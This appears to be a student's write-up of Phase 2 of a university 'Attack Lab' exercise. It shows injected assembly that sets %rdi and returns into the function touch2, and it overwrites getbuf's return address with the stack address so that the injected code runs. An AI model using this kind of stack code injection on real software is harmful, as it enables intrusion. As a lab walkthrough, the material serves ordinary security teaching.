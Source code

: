 # Attack Lab
## Phase 2
We want to pass an argument and use it in calling function *touch2*, in the assembly file we call it *assemly.s*, we could do this:
```
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq    ;now %rip pointers to address 0x4017ec (touch2)
```

Get the machine code of the above assembly code. You can do it using 
```
cc -c assembly.s
objdump -d assembly.o
```

Add this machine code to the top of file we call it solution2.txt,
then we need to figure out how to run the code we wrote above. That is we could override the return state of function *getbuf*. 

We hope it goes back to the start of the custom code once it returns from *getbuf*. So we need the start address of this code, it happens to be the value of *%rsp* pointer. So we use its value to replace the original one(0x401976).